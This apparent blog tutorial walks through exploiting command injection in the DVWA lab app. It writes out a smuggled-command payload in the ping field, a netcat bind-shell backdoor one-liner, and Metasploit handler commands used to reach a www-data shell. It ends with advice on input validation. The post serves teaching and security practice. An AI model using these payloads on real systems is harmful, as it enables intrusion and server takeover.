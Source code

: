 ```yaml
---
layout: post
section-type: post
title: "Exploiting Command Injection Vulnerability in DVWA with Metasploit"
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


In this post we'll go through the process of exploiting command injection
vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gain access to
the server using [Metasploit](https://www.metasploit.com/).

Command Injection is a type of vulnerability that allows attackers to execute
arbitrary commands on the host operating system by manipulating a vulnerable
software that the attacker can interact with. This type of attack is possible
when the application fails to properly validate user input and uses it to
execute shell commands on the host operating system.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which
is designed to ping an IP address. Let's test the section by entering the IP
address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the _Command Injection_ it's safe to assume that it simply
appends our input to the underlying bash command, and then it sends the result
as part of the returned HTML page. This means that we can use the input field to
execute arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the _Command Injection_ section executes the appended command and
displays the result. This confirms that we can use this vulnerability to execute
arbitrary commands on the host operating system.

Now, let's create a backdoor on the server by listening on port `4444` using
netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is
open and waiting for us.

Next, let's use Metasploit to gain access to the server. We will start
`msfconsole` and use the `exploit/multi/handler` module to open a shell on the
server:

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the `LPORT` of `bind_tcp`, since the default one is
`4444`.

As you can see, we are logged in as the `www-data` user, which has limited
privileges. We can't read the `/etc/shadow` file, which contains the user
passwords of the operating system. However, we have all the privileges that the
`www-data` user has and we can potentially modify DVWA or escalate to root by
exploiting a local privilege escalation vulnerability.

As a web developer, it's important to always sanitize your user input and never
pass this data to other applications without validating it first. In this case,
the application should validate the provided IP address and make sure that it's
a valid IP address before passing it to the `ping` command.
